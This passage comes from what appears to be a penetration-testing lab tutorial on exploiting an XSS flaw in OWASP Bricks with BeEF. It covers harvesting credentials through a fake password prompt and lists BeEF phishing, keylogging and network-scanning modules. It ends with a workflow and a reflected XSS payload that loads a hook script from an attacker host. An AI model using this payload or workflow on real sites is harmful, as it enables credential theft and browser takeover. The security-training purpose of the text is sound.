 The advantage of this client-side attack is that the seemingly normal password prompt keeps the victim unaware of their participation in the zombie network.

After the victim enters their password, return to the BeEF UI to review the captured information. Clicking on the ID “0” will reveal what the victim typed. This information can be used to gain access and potentially move laterally within the environment.

As illustrated, an XSS vulnerability can be extremely powerful. If the XSS vulnerability was stored rather than reflected, the impact would be even more severe. A stored XSS does not require the victim to visit a specially crafted URL; the malicious script would execute automatically whenever the victim interacts with the affected application.

Note: *Other powerful BeEF attacks:*

- *Social Engineering Module (Phishing): Besides "Pretty Theft," BeEF includes other phishing modules for different services like Google, Twitter, or LinkedIn. These modules create fake login pages for various platforms, aiming to capture user credentials when victims log in.*

- *Credential Forwarding: This module sends captured credentials to an external service or server. It's useful for aggregating collected data from multiple phishing attempts.*

- *Keylogger Module: BeEF can deploy keyloggers on the victim’s browser. This captures keystrokes, including passwords and other sensitive information. Keyloggers can be delivered via XSS and are particularly effective if combined with social engineering techniques.*

- *Browser Exploitation Framework (BeEF): BeEF can exploit various browser vulnerabilities to gain deeper access. This includes exploiting weaknesses in the browser's security features to perform actions like taking screenshots or accessing local files.*

- *Metasploit Integration: BeEF can be integrated with Metasploit for more advanced attacks. For example, once a victim is hooked, Metasploit can be used to perform more sophisticated attacks, such as remote code execution.*

- *Internal Network Scanning: BeEF can perform internal network scans from the victim’s browser to discover other devices and services within the victim's network. This is valuable for lateral movement and further exploitation.*

Note: *Here’s a concise workflow reminder highlighting the crucial steps in exploiting an XSS vulnerability using BeEF as demonstrated above:*

1. **Identify the XSS Vulnerability:**

- Use tools like Burp Suite or ZAP to discover XSS vulnerabilities in the target web application.

2. **Start BeEF:**

- Launch the BeEF service.

- Access the BeEF web interface at http://127.0.0.1:3000/ui/authentication and log in using the default credentials: username: beef and password: beef.

3. **Obtain Hook URL:**

- In the BeEF terminal, note the Hook URL provided (e.g., http://192.168.1.123:3000/hook.js).

4. **Craft the XSS Payload:**

- Create a payload to inject the BeEF hook script into the vulnerable page. Example URL:

```
http://192.168.1.124/owaspbricks/content-2/index.php?user=harry3a201<script src=http://192.168.1.123:3000/hook.js></script>
```
